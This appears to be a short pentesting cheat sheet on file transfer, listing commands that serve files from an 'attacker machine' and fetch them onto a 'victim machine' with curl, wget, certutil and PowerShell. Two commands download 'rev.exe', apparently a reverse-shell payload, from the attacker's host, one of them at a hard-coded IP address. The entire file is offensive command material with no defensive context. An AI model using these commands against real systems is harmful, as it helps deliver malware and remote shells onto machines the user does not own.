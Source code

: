 # 2_file_transfer

## Linux

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine using curl.
```shell
curl http://$me:8888/filename -o filename	
```

- Victim machine using wget.
```shell
wget http://$me:8888/filename -O filename
```

## Windows

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine using CMD.
```shell
certutil -urlcache -f http://$me:8888/rev.exe rev.exe
```

- Victim machine using powershell.
```shell
powershell (New-Object Net.WebClient).Downloadfile('http://10.9.53.136:8888/rev.exe', 'rev.exe')
```
